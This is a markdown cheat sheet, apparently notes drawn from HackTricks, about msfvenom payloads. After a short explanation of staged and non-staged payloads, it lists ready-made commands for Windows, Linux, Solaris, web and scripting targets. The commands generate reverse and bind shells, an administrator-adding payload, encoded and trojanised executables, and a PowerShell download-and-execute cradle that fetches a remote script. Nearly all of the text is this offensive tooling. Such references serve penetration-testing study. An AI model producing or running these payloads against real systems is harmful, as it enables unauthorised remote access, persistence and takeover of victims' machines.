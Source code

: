 
### **MSF provides 2 types of payloads can be paired with an exploit:** 

##### **1. <mark style="background: #239b56;">Non-Staged Payload:</mark> **
Payload that is sent to the target system as is along with the exploit

##### **2. <mark style="background: #e74c3c;">Staged Payload:</mark> **
A Staged payload is sent to the target in two parts, whereby:

The first part (<mark style="background: #00CDFF82;">**Stager**</mark>) contains a payload that is used to establish a reverse connection back to the attacker (Just for downloading something),  
download the second part of the payload (<mark style="background: #e74c3c;">**Stage**</mark>) and execute it Which could be Arbitrary commands or a Reverse Shell.

> **<mark style="background: #00CDFF82;">Stager:</mark>** is typically used to establish a stable communication channel between the attacker and target, after which a stage payload is downloaded and executed on the target system.

><mark style="background: #e74c3c;">**Stage:**</mark> Payload components that are downloaded by the stager.


---

# **Windows**

### [**Reverse Shell**](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#reverse-shell)



`msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe`

### [Bind Shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#bind-shell)



`msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe`

### [Create User](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#create-user)



`msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe`

### [CMD Shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#cmd-shell)



`msfvenom -p windows/shell/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > prompt.exe`

### [**Execute Command**](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#execute-command)



`msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f exe > pay.exe msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators shaun /add" -f exe > pay.exe`

### [Encoder](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#encoder)



`msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe`

### [Embedded inside executable](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#embedded-inside-executable)



`msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -x /usr/share/windows-binaries/plink.exe -f exe -o plinkmeter.exe`

# **Linux Payloads**

### [Reverse Shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#reverse-shell-1)



`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f elf > reverse.elf msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf`

### [Bind Shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#bind-shell-1)



`msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f elf > bind.elf`

### [SunOS (Solaris)](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#sunos-solaris)



`msfvenom --platform=solaris --payload=solaris/x86/shell_reverse_tcp LHOST=(ATTACKER IP) LPORT=(ATTACKER PORT) -f elf -e x86/shikata_ga_nai -b '\x00' > solshell.elf`




# **Web Based Payloads**
### [**PHP**](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#php)

#### [Reverse shel**l**](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#reverse-shell-3)



`msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

### [ASP/x](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#aspx)

#### [Reverse shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#reverse-shell-4)

bash

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f asp >reverse.asp msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f aspx >reverse.aspx`

### [JSP](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#jsp)

#### [Reverse shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#reverse-shell-5)

bash

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f raw> reverse.jsp`

### [WAR](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#war)

#### [Reverse Shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#reverse-shell-6)

bash

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f war > reverse.war`

### [NodeJS](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#nodejs)

bash

`msfvenom -p nodejs/shell_reverse_tcp LHOST=(IP Address) LPORT=(Your Port)`


---

# **Script Language payloads**


### [**Perl**](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#perl)

bash

`msfvenom -p cmd/unix/reverse_perl LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.pl`

### [**Python**](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#python)

bash

`msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py`

### [**Bash**](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/msfvenom.html#bash)

bash

`msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh`